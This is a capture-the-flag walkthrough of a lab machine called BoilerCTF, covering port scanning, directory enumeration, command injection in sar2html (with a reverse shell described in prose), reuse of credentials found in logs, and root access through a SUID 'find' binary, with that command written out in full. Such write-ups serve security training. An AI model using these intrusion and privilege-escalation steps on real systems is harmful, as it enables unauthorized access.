 # BoilerCTF

export IP=10.10.29.64

## Task 1

### 1 - File extension after anon login

start with the ol'nmap... <br>

cmd: nmap -sC -sV -oN nmap/ini $IP
```
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.128.84
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
Access ftp, using creds
```
ftp $IP
Anonymous: <empty>

ls -la
-rw-r--r--    1 ftp      ftp            74 Aug 21 2019 .info.txt
```
Answer: txt

### 2 - What is on the highest port?
Since the nmap i got cannot provide the correct answer i just ran an all ports scan <br>

```
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.128.84
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
```

Answer: ssh
### 3 - What's running on port 10000?

Answer: Webmin

### 4 - Can you exploit the service running on that port? (yay/nay answer)

Answer: nay

### 5 - What's CMS can you access?
Did a gobuster on the base apache server

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/joomla (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

Answer: joomla
### 6 - Keep enumerating, you'll know when you find it.

lets do another gobuster on <b> http://10.10.29.64/joomla/ </b>

```
/_archive (Status: 301)
/_database (Status: 301)
/_files (Status: 301)
/_test (Status: 301) (nothing until here)
/administrator (Status: 301) (login)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
```

In the _test folder, it appears a new interface, showing a report builder named <b> sar2html </b> <br>

with: <b>serachsploit sar2html </b> we get an exploit that showcases that when creating a new report suffers from command injection! <br>

First thing i tried was a ping and listening with tcpdump, and it worked!! <br>

Spawn a server, curl a rev shell and execute it <br>

```
whoami
www-data
```

### 7 - The interesting file name in the folder?

in this folder (where the vulnerability is) there's a log file
```
ls -la /var/www/html/joomla/_test
-rwxr-xr-x  1 www-data www-data 53430 Aug 22  2019 index.php
-rwxr-xr-x  1 www-data www-data   716 Aug 21  2019 log.txt <--------- (HERE)
-rw-r--r--  1 www-data www-data  5493 Oct 24 01:17 rev.php
-rwxr-xr-x  1 www-data www-data 53165 Mar 19  2019 sar2html
drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 sarFILE
```
Answer: log.txt
## Task 2 - 

### 1 - Where was the other users pass stored(no extension, just the name)?
from the log (in _test folder) we can su to basterd

```
su bastard
Password: superduperp@$$
```

in his home folder there's a backup file (contains creds)
```
stoner : superduperp@$$no1knows
```
Answer: backup

### 2 - user.txt
```
ls -la ~

drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret


cat ~/.secret
You made it till here, well done.
```

Answer: You made it till here, well done.

### 3 - What did you exploit to get the privileged user?

since sudo -l was joking, i just tried to check manually SUID binaries before launching linpeas and yes, there it is

```
cmd: find / -type f -perm /4000 -print 2>/dev/null
(....)
/usr/bin/find < ----------- (HERE)
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
(....)
```
Answer: find

### 4 - root.txt
Just used gtfobins 

```
cmd: /usr/bin/find . -exec /bin/bash -p \; -quit

whoami 
root

cat /root/root.txt 
It wasn't that hard, was it?
```